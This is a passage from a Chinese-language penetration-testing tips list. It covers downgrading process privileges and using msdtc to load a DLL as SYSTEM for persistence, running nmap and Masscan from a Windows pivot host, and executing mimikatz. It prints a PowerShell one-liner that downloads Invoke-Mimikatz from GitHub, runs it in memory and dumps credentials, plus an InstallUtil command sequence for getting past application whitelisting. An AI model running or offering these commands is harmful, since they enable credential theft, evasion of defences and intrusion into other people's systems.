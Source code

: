 代码下载地址：https://github.com/3gstudent/From-System-authority-to-Medium-authority/blob/master/Processauthority.cpp

参考：

[《渗透技巧——程序的降权启动》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A8%8B%E5%BA%8F%E7%9A%84%E9%99%8D%E6%9D%83%E5%90%AF%E5%8A%A8/)

降权方法2：使用msdtc

使用msdtc会以system权限加载oci.dll，但在管理员权限cmd执行：

msdtc -install

启动的calc.exe为high权限

参考：

[《Use msdtc to maintain persistence》](https://3gstudent.github.io/3gstudent.github.io/Use-msdtc-to-maintain-persistence/)

---

### Tips 24. 通过命令行能够对Windows系统安装WinPcap，这样就可以在Windows跳板上使用nmap和Masscan

参考：

[《渗透技巧——Windows平台运行Masscan和Nmap》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E5%B9%B3%E5%8F%B0%E8%BF%90%E8%A1%8CMasscan%E5%92%8CNmap/)

---

### Tips 25. Windows平台执行mimikatz的方法

#### 方法1：通过powershell

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

#### 方法2：通过InstallUtil.exe

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe
```

参考：

《利用白名单绕过360实例》

《利用白名单绕过限制的更多测试》

#### 方法3：通过regsvr32.exe

https://gist.githubusercontent.com/subTee/c3d5030bb99aa3f96bfa507c1c184504/raw/24dc0f93f1ebdda7c401dd3890259fa70d23f75b/regsvr32-katz.cs
